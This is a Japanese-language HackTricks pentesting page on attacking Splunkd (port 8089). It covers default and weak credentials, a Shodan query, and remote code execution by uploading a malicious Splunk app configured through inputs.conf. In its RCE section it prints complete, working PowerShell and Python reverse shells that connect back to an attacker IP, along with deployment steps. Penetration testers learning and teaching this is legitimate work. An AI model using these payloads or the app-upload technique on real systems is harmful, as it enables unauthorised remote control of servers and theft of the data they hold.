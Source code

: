 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **基本情報**

* データ収集、分析、可視化に使用されるログ分析ツール
* セキュリティ監視やビジネス分析で一般的に使用される
* デフォルトポート:
* ウェブサーバー: 8000
* Splunkdサービス: 8089

### 脆弱性ベクトル:

1. 無料版の悪用

* トライアル版は60日後に自動的に無料版に変わる
* 無料版は認証がない
* 管理されない場合、潜在的なセキュリティリスクがある
* 管理者はセキュリティの影響を見落とす可能性がある

2. 認証情報の脆弱性

* 古いバージョン: デフォルトの認証情報 `admin:changeme`
* 新しいバージョン: インストール時に設定された認証情報
* 弱いパスワードの使用の可能性 (例: `admin`, `Welcome`, `Password123`)

3. リモートコード実行の機会

* 複数のコード実行方法:
* サーバーサイドDjangoアプリケーション
* RESTエンドポイント
* スクリプト入力
* アラートスクリプト
* クロスプラットフォームサポート (Windows/Linux)
* スクリプト入力は実行可能:
* Bashスクリプト
* PowerShellスクリプト
* バッチスクリプト

主要な悪用の可能性:

* 機密データの保存
* 無料版の認証の欠如
* リモートコード実行のための複数のベクトル
* システム侵害のためのスクリプト入力の活用の可能性

### Shodan

* `Splunk build`

## RCE

### カスタムアプリケーションの作成

Splunkは、カスタムアプリケーションの展開を通じてリモートコード実行のための高度な方法を提供し、そのクロスプラットフォームスクリプティング機能を活用しています。主要な悪用技術は、WindowsおよびLinuxシステムでリバースシェルを実行できる悪意のあるアプリケーションを作成することにあります。

カスタムアプリケーションは**Python、Batch、Bash、またはPowerShellスクリプト**を実行できます。さらに、**SplunkにはPythonがインストールされているため**、**Windows**システムでもPythonコードを実行できます。

[**こちら**](https://github.com/0xjpuff/reverse_shell_splunk)の例を使用して、[Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py)と[PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1)の例を含む**`bin`**を作成できます。または、自分で作成することもできます。

悪用プロセスは、プラットフォーム全体で一貫した方法論に従います:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
重要な設定ファイル `inputs.conf` は、スクリプトを有効にするために以下を行います：

* `disabled = 0` を設定
* 10秒の実行間隔を設定
* スクリプトのソースタイプを定義

デプロイメントは簡単です：

1. 悪意のあるアプリケーションパッケージを作成
2. 攻撃マシンでリスナー（Netcat/socat）を設定
3. Splunkのインターフェースを通じてアプリケーションをアップロード
4. アップロード時に自動スクリプト実行をトリガー

サンプルWindows PowerShellリバースシェル：
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
サンプルLinux Pythonリバースシェル:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

以下のページでは、このサービスがどのように悪用されて特権を昇格させ、持続性を得ることができるかの説明を見つけることができます：

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
